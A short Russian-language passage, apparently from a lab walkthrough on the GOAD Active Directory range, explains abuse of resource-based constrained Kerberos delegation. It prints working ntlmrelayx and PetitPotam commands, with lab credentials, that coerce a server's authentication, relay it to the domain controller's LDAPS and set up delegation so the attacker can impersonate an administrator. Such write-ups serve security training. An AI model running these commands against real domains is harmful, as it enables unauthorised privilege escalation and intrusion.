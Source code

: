 ![](/images/coerce/Pasted%20image%2020250106112501.png)

**Ограниченное делегирование Kerberos на основе ресурсов**

При делегировании Kerberos на основе ресурсов компьютеры (ресурсы) указывают, кому они доверяют и кто может делегировать им аутентификацию. Учетные записи, которым доверяют компьютеры, указаны в атрибуте msDS-AllowedToActOnBehalfOfOtherIdentity. Если атакующий добавит в этот атрибут имя скомпрометированного компьютера (или любого компьютера, от имени которого он может пройти аутентификацию), то он сможет притвориться для целевого хоста кем угодно — например, администратором.

Злоумышленник может заставить аутентифицироваться сервер braavos.essos.local (192.168.56.23) на своем хосте и перенаправить аутентификацию на протокол LDAPS контроллера домена meereen.essos.local для создания машинной учетной записи, которой будет доверять braavos.

```
impacket-ntlmrelayx -t ldaps://192.168.56.12 --remove-mic --delegate-access
python /home/kali/PetitPotam/PetitPotam.py -u 'arya.stark' -p 'Needle' -d north.sevenkingdoms.local 192.168.56.200 192.168.56.23
```

![](/images/coerce/Pasted%20image%2020250106115607.png)
